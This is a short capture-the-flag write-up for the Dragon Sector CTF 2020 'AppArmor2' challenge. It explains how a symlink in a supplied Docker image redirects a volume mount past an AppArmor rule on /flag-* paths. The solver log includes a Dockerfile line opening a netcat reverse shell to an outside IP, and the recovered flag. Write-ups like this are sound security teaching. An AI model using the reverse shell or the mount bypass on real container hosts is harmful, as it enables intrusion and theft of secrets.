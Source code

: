 ### Writeup for the AppArmor2 task from Dragon Sector CTF 2020  
This is a very short writeup to the "AppArmor2" challenge from the [Dragon
Sector CTF 2020](https://ctftime.org/event/1082), solved by disconnect3d from
justCatTheFish ctf team.

In this CTF challenge, there was a custom AppArmor policy applied to the run
containers, such that it disallowed reads/writes to `/flag-*` paths.

We, as a user, could only provide a docker image that was built and run later
on, and the flag (which we wanted to steal) was mounted as a volume into the
run container with a `docker run -v /flag.txt:/flag-XXYY ...` invocation. The
`XXYY` part was random.

### Solution

The solver is in `./solve.sh`. When running for first time, you need to:  
* update the (referenced) docker image name in `build.sh` and the `<<YOURIP>>` part  
* login to gitlab docker registry (`docker login`) and share your project with `dragonsectorclient` (that's how you shared the docker image with the challenge, and the challenge pulled and run it later on)

The *bug* here is that AppArmor denies read/write/etc to `/flag-*` but this
limitation is enforced during container run time **but not during its build
time AND that Docker will follow symlinks present in the image when mounting
files with `docker run -v /hostpath:/containerpath ...`**.

So it turns out that when the `docker run -v something:somepath ...` is
invoked, the `somepath` follows links and we can make a link from `/flag-XXYY`
to `/D` in our image. In the end, the `docker run -v /flag.txt:/flag-XXYY ...`
will mount `flag.txt` into `/D` which we can read.

```  
dc@jhtc:~/dsctf/x/task/ds-apparmor-task/solution$ ./solve.sh  
mkdir: cannot create directory ‘rootfs’: File exists  
Sending build context to Docker daemon  33.56MB  
Step 1/4 : FROM ubuntu  
---> d70eaf7277ea  
Step 2/4 : RUN apt update && apt install -y netcat-traditional  
---> Using cache  
---> 40ac85e97bbe  
Step 3/4 : ADD rootfs /  
---> Using cache  
---> 17f203a1ee6a  
Step 4/4 : CMD nc 51.38.138.162 4444 -e /bin/sh  
---> Using cache  
---> 422aece7a145  
Successfully built 422aece7a145  
Successfully tagged registry.gitlab.com/mytempaccount123/test:latest  
The push refers to repository [registry.gitlab.com/mytempaccount123/test]  
3c45abc528a8: Layer already exists  
be0923227e77: Layer already exists  
cc9d18e90faa: Layer already exists  
0c2689e3f920: Layer already exists  
47dde53750b4: Layer already exists  
latest: digest:
sha256:fda92fc789dbfde33799502d18e30e8f3b2d184d9942ea1e6c5ff75f7003ffd5 size:
1365  
[+] Opening connection to apparmor2.hackable.software on port 1337: Done  
Executing b'hashcash -mb26 udqynihh'  
out b'1:26:201121:udqynihh::i6HwB+Gk4OttOKvq:000000005+DgO\n'  
b'Image added to the queue\n'  
Listening on [0.0.0.0] (family 0, port 4444)  
Connection from 156.95.107.34.bc.googleusercontent.com 56178 received!  
DrgnS{4e77cd33ffb0c7802b39303f7452fd90}  
```  

Original writeup
(https://github.com/disconnect3d/writeups/tree/master/dsctf2020-apparmor2-task).